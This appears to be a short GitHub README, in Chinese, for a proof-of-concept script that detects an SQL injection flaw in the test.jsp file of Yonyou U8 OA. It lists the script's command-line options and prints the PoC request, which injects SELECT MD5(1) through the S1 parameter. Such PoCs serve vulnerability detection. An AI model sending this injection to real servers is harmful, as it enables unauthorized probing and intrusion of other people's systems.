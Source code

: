 # U8detectPoc_Sql

对于用友 U8 OA test.jsp文件存在 SQL注入漏洞,进行脚本化检测POC


![image](https://user-images.githubusercontent.com/103556327/192997805-6d6bab8a-8640-4c45-9e78-deedaa85478e.png)

```
-h / --help使用帮助参数
```


![image](https://user-images.githubusercontent.com/103556327/192997926-5757abd1-4dd2-41ed-9c50-47d069f281fd.png)

```
-u 输入url网站地址直接进行检测是否存在漏洞
```

# poc:

```
http://target/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20MD5(1))
```
![4e950ce3adb881a6d25cb46f3decaa4](https://user-images.githubusercontent.com/103556327/192998187-93f2f586-e153-4235-a13f-2f4d39427df0.jpg)


### via:PeiQi
